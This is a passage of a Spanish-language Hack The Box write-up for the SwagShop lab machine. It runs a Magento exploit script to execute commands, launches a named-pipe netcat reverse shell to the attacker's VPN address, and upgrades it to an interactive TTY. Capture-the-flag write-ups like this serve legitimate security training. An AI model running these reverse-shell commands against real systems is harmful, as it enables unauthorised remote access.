 Para ello vamos a ver primero si disponemos de `netcat` para tratar de establecer una reverse shell:

    python3 magento-oneshot.py --command "wich nc" http://swagshop.htb/index.php

Vemos que si disponemos de netcat. Ahora vamos a tratar de establecer una 
reverse shell. En el siguiente enlace, podréis ver una gran repertorio
de herramientas desde las que establecer shells inversas.

Nosotros vamos a utilizar la de Netcat:

[https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
    
![Captura de pantalla -2022-05-05 01-46-13](https://user-images.githubusercontent.com/103068924/166850489-e62e07a6-eda5-4ef7-9759-723deff77eec.png)

Primero preparamos en una terminal aparte, con nuestro comando netcat `nc` en escucha por el puerto `8080`.

    nc -lnvp 8080
    
 ![Captura de pantalla -2022-05-05 09-09-31](https://user-images.githubusercontent.com/103068924/166876948-fc9519f0-429a-4a41-b23f-86b89ec86d43.png)
 
Finalmente, especificamos el comando que nos reporta el artículo dentro de nuestro comando anterior, también especificamos nuestra Ip (En este caso es nuestra vpn de HTB) y el puerto desde el que nos pondremos en escucha, `8080`.
 
    python3 magento-oneshot.py --command "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.29 8080 >/tmp/f" http://swagshop.htb/index.php
    
![Captura de pantalla -2022-05-05 01-47-38](https://user-images.githubusercontent.com/103068924/166876323-c111416f-50ca-4c3a-920a-9ca6ca1ccb0e.png)

Ya tenemos nuestro shell. Pero sigue sin ser funcional del todo.

![Captura de pantalla -2022-05-05 09-11-59](https://user-images.githubusercontent.com/103068924/166877544-d98100a1-a769-4b12-bb99-7c22b6411983.png)

Para poder obtener una shell completa basada en bash, utilizamos los siguientes comandos:

    script /dev/null -c bash
    
 ![Captura de pantalla -2022-05-05 09-12-36](https://user-images.githubusercontent.com/103068924/166877565-7c129c72-ef1d-4e52-bd19-af03d44d4283.png)

Ahora pulsamos `Cntl + z` enviamos el proceso a segundo plano. Y ejecutamos lo siguiente:

![Captura de pantalla -2022-05-05 09-12-53](https://user-images.githubusercontent.com/103068924/166877674-46b7f844-b2ed-47b9-bfac-4c8fbfa0bc57.png)

Ejecutamos el siguiente comando:
    
    stty raw -echo; fg
    
![Captura de pantalla -2022-05-05 09-13-31](https://user-images.githubusercontent.com/103068924/166877723-7f1282b0-fe27-4b73-b4a7-e4d72d07e97b.png)

    
Y terminamos reseteando la shell:    
    
    reset xterm
    
 ![Captura de pantalla -2022-05-05 09-17-59](https://user-images.githubusercontent.com/103068924/166877905-58e6f441-7889-4d9d-b1d4-386576924715.png)   
    